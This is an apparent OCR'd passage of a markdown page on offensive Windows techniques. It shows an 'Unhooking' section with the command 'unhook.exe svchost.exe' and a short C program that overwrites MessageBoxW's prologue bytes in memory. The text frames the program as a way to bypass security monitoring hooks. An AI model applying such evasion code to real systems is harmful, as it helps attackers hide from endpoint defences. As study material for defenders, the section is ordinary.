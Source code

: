 ```
    CloseHandle(hProcess);

    return 0;
}
```


### Unhooking

Unhooking svchost from security modules

```
unhook.exe svchost.exe
```



Unhooking refers to the process of restoring the original bytes of a function that has been hooked (i.e., its behavior has been altered, often by security software or malware). By unhooking a function, you can bypass monitoring or other security mechanisms that rely on these hooks.

```
#include <windows.h>
#include <stdio.h>

// This is a simple representation of the first few bytes of the MessageBoxW function
// in its original state. This might vary based on the Windows version and updates.
unsigned char originalBytes[] = { 0x8B, 0xFF, 0x55, 0x8B, 0xEC };

int main() {
    HMODULE hUser32 = GetModuleHandleA("user32.dll");
    if (!hUser32) {
        printf("Failed to get handle to user32.dll.\n");
        return 1;
    }

    // Get the address of MessageBoxW
    FARPROC pMessageBoxW = GetProcAddress(hUser32, "MessageBoxW");
    if (!pMessageBoxW) {
        printf("Failed to get address of MessageBoxW.\n");
        return 1;
    }

    // Change memory protection to allow writing
    DWORD oldProtect;
    if (!VirtualProtect(pMessageBoxW, sizeof(originalBytes), PAGE_EXECUTE_READWRITE, &oldProtect)) {
        printf("Failed to change memory protection.\n");
        return 1;
    }

    // Overwrite the beginning of MessageBoxW with the original bytes
    memcpy(pMessageBoxW, originalBytes, sizeof(originalBytes));

    // Restore the original memory protection
    VirtualProtect(pMessageBoxW, sizeof(originalBytes), oldProtect, &oldProtect);

    printf("Unhooked MessageBoxW successfully.\n");

    // Test the unhooked function
    MessageBoxW(NULL, L"Unhooked MessageBox", L"Test", MB_OK);

    return 0;
}
```
